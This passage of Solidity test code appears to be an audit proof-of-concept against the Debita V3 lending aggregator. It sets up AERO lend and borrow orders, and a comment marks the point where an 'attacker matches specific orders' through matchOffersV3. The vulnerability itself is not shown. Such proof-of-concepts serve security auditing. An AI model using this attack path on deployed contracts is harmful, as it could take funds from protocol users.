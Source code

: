 ```solidity
            acceptedPrinciples,
            AERO,
            oraclesPrinciples, 
            ratio,
            address(0x0),
            5e18
        );

        LendOrder = DLOImplementation(lendOrderAddress);

        BorrowOrder = DBOImplementation(borrowOrderAddress);

        address[] memory lendOrders = allDynamicData.getDynamicAddressArray(1);
        uint[] memory lendAmountPerOrder = allDynamicData.getDynamicUintArray(
            1
        );
        uint[] memory porcentageOfRatioPerLendOrder = allDynamicData
            .getDynamicUintArray(1);
        address[] memory principles = allDynamicData.getDynamicAddressArray(1);
        uint[] memory indexForPrinciple_BorrowOrder = allDynamicData
            .getDynamicUintArray(1);
        uint[] memory indexForCollateral_LendOrder = allDynamicData
            .getDynamicUintArray(1);
        uint[] memory indexPrinciple_LendOrder = allDynamicData
            .getDynamicUintArray(1);
        indexForPrinciple_BorrowOrder[0] = 0;
        indexForCollateral_LendOrder[0] = 0;
        indexPrinciple_LendOrder[0] = 0;

        lendOrders[0] = address(LendOrder);
        lendAmountPerOrder[0] = 5e18;
        porcentageOfRatioPerLendOrder[0] = 10000;
        principles[0] = AERO;

        // attacker matches specific orders
        address loan = DebitaV3AggregatorContract.matchOffersV3(
            lendOrders,
            lendAmountPerOrder,
            porcentageOfRatioPerLendOrder,
            address(BorrowOrder),
            principles,
            indexForPrinciple_BorrowOrder,
            indexForCollateral_LendOrder,
            indexPrinciple_LendOrder
        );

    }

    function userCreateLendOrder() public {

        deal(AERO, user, 10e18, false);
        
        IERC20(AERO).approve(address(DBOFactoryContract), 1000e18);
        IERC20(AERO).approve(address(DLOFactoryContract), 1000e18);

        bool[] memory oraclesActivated = allDynamicData.getDynamicBoolArray(1);
        uint[] memory ltvs = allDynamicData.getDynamicUintArray(1);
        uint[] memory ratio = allDynamicData.getDynamicUintArray(1);

        address[] memory acceptedPrinciples = allDynamicData
            .getDynamicAddressArray(1);
        address[] memory oraclesPrinciples = allDynamicData
            .getDynamicAddressArray(1);
```
